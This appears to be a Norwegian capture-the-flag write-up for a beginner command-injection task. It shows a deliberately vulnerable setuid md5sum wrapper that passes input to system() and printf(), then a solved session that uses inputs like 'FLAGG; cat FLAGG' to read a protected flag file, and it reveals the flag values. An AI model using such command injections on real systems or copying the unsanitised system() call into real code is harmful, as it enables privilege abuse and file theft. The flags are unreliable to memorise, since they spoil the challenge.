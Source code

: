 # Command injection

Sårbarheter der *brukerdata* tolkes som kommandoer er en klassiker som aldri går av moten. En av de enkleste variantene oppstår når brukerdata sendes rett til et *shell*. Teknikken kalles *command injection*, og man kan få programmet til å kjøre flere kommandoer enn tiltenkt ved å skille dem med en semikolon.

*Cross-site scripting* (*XSS*), *path traversal*, *SQL injection*, *deserialization attacks* og *format string vulnerabilities* er andre variasjoner som kan føre til hele spekteret fra *informasjonslekkasjer* til *kodeeksekvering*.

Programfilene i denne katalogen sender brukerkontrollert data videre til operativsystemets `system()`-funksjon uten *sanitisering*. Det er bra for en hacker :)

Det er også en artig *format string-sårbarhet* her. Det er mulig å lese minne fra *stacken* ved å sende inn "%p.%p.%p....%p" (men dette trengs ikke for å lese ut flagget).

Prøv selv:

```sh
$ cat md5sum.c
$ ./md5sum FLAGG
$ ./md5sum "FLAGG LESMEG.md"
$ ./md5sum "FLAGG; id"
$ ???
$ scoreboard <FLAGG>
```
# Solution
```sh
login@corax:~/1_grunnleggende/3_injection$ cat md5sum.c 
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int
main(int argc, char *argv[])
{
        if (argc != 2) {
                printf("Usage: %s <file>\n\n", argv[0]);
                printf("Suid-wrapper rundt md5sum.\n");
                exit(0);
        }

        char cmd[512];
        snprintf(cmd, sizeof(cmd), "/usr/bin/md5sum %s", argv[1]);

        printf("Kjører kommando:\n");
        printf(cmd);
        printf("\n\n");

        setreuid(geteuid(), geteuid());
        printf("Resultat:\n");
        system(cmd);
}

login@corax:~/1_grunnleggende/3_injection$ ./md5sum FLAGG
Kjører kommando:
/usr/bin/md5sum FLAGG

Resultat:
033d05d362d1bb186150bac3c8b8b936  FLAGG

login@corax:~/1_grunnleggende/3_injection$ ./md5sum "FLAGG LESMEG.md"
Kjører kommando:
/usr/bin/md5sum FLAGG LESMEG.md

Resultat:
033d05d362d1bb186150bac3c8b8b936  FLAGG
2705304f88563d40113d164654436e2c  LESMEG.md

login@corax:~/1_grunnleggende/3_injection$ ./md5sum "FLAGG; id"
Kjører kommando:
/usr/bin/md5sum FLAGG; id

Resultat:
033d05d362d1bb186150bac3c8b8b936  FLAGG
uid=1003(basic3) gid=1000(login) groups=1000(login)

login@corax:~/1_grunnleggende/3_injection$ scoreboard 033d05d362d1bb186150bac3c8b8b936
md5sum er et program som regner ut md5-hashen av en fil.
Flagget er innholdet i filen.
Du vil ikke klare å finne flagget ved hjelp av brute force.

Hint: Hva er tittelen på denne oppgaven?

login@corax:~/1_grunnleggende/3_injection$ ./md5sum "FLAGG; cat FLAGG"
Kjører kommando:
/usr/bin/md5sum FLAGG; cat FLAGG

Resultat:
033d05d362d1bb186150bac3c8b8b936  FLAGG

Ved bruk av suid må man være spesielt forsiktig så en angriper ikke kan utnytte
de ekstra tilgangene til noe ondsinnet.

Her klarte du å lese en fil du ikke egentlig skulle se!

╭────────────────────────────────────────╮
│    cc04b2deb84a5260e06d8aca1002171b    │
╰────────────────────────────────────────╯

login@corax:~/1_grunnleggende/3_injection$ scoreboard cc04b2deb84a5260e06d8aca1002171b
Kategori: 1. Grunnleggende
Oppgave:  1.3_injection
Svar:     cc04b2deb84a5260e06d8aca1002171b
Poeng:    10

Gratulerer, korrekt svar!
```

